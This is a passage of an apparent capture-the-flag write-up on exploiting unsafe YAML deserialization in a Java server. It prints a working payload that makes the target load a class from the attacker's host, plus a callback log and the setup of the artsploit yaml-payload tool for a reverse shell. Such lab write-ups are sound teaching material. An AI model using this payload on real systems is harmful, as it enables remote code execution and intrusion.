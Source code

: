 The basic premise is how YAML is processed when no sanitization of user input is performed, and how the parser is configured to read the YAML input. Using the payload below, we can get remote code execution. I did a POC test, by setting up a Python HTTP server and attempting a connection back to it to find the fictitious `meow.txt` file.


```none
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5:8000/meow.txt"]
  ]]
]
```

And got a hit on my Python HTTP server.

```none
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.227 - - [15/Aug/2021 10:36:05] code 404, message File not found
10.10.10.227 - - [15/Aug/2021 10:36:05] "GET /meow.txt HTTP/1.1" 404 -
```

Following along with the YAML deserialization article, we get a link to a [`yaml-payload` by artsploit](https://github.com/artsploit/yaml-payload). The project is simple and allows us to edit some Java code, compile the code, and create a JAR file that will run on the target server.

I started by installing OpenJDK on my Kali machine, as it was not available by default on the normal Kali installation (without all tools installed).

```none
sudo apt install -y default-jdk
```

Next, download the `yaml-payload` repo from GitHub.

```none
git clone https://github.com/artsploit/yaml-payload.git
```

If we have a look at the only file - `AwesomeScriptEngineFactory.java` - there are a couple of lines (12 and 13) that we can use as an example and modify to execute some code.

```java
Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
```

Looks like we can edit this to run the commands we want, most likely a reverse shell to get a foothold on the server. I haven't done much Java in a while, so getting this to work took a little trial and error. Here are a couple of things I tried.

- Using a bash reverse shell
- Using a netcat reverse shell

None of these worked. I was thinking it was most likely due to some special character issues. Then I checked the Java reverse shell options from the [Reverse Shell Cheat Sheet on Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java). This seemed to be very similar to the previous reverse shell attempts, and they also didn't work. I tried both the payload options. For example, the payload below.

